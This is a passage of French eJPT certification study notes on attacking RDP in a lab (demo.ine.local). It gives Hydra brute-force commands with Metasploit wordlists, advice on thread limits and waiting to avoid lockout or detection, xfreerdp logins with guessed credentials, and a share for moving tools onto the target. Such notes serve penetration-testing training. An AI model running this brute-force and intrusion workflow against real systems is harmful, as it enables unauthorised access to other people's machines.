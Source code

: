 ### Scénario 3: RDP + transfert de fichiers
```bash
# 1. Connexion avec partage
xfreerdp /u:administrator /p:password /v:target:3333 /drive:kali,/tmp

# 2. Dans Windows RDP
# Aller à \\tsclient\kali\
# Copier tools depuis Kali vers Windows

# 3. Exécuter tools sur Windows pour enum/exploit local
```

---

## 💡 9. Conseils et astuces eJPT

### Points critiques RDP eJPT
- ✅ **Ports non-standards** très fréquents (3333, 13389)
- ✅ **Hydra avec wordlists MSF** très efficace
- ✅ **Maximum 4 threads** pour RDP (crucial)
- ✅ **xfreerdp plus stable** que rdesktop
- ✅ **Flags souvent en C:\\** racine
- ✅ **Attendre 30-40s** après brute force avant connexion

### Erreurs courantes à éviter
- ❌ **Trop de threads Hydra** → Blocage service RDP
- ❌ **Ne pas tester ports alternatifs** RDP
- ❌ **Oublier /cert-ignore** → Échec connexion
- ❌ **Brute force trop agressif** → Détection/blocage
- ❌ **Ne pas attendre** après brute force

### Optimisations eJPT
```bash
# Configuration Hydra optimale eJPT
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt \
      -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
      -t 4 -f -v rdp://demo.ine.local -s 3333

# Connexion xfreerdp optimale
xfreerdp /u:administrator /p:qwertyuiop /v:demo.ine.local:3333 /cert-ignore +clipboard /size:1024x768
```

### Workflow timing eJPT
```bash
# 1. Découverte (1-2 min)
nmap -sV demo.ine.local

# 2. Identification RDP (30s)
use auxiliary/scanner/rdp/rdp_scanner; set RPORT 3333; exploit

# 3. Brute force (2-3 min)
hydra -L common_users.txt -P unix_passwords.txt rdp://demo.ine.local -s 3333

# 4. ATTENDRE 30-40 secondes (important!)

# 5. Connexion RDP (30s)
xfreerdp /u:administrator /p:qwertyuiop /v:demo.ine.local:3333 /cert-ignore

# 6. Recherche flag (1 min)
# GUI : My Computer → C:\ → flag.txt
```
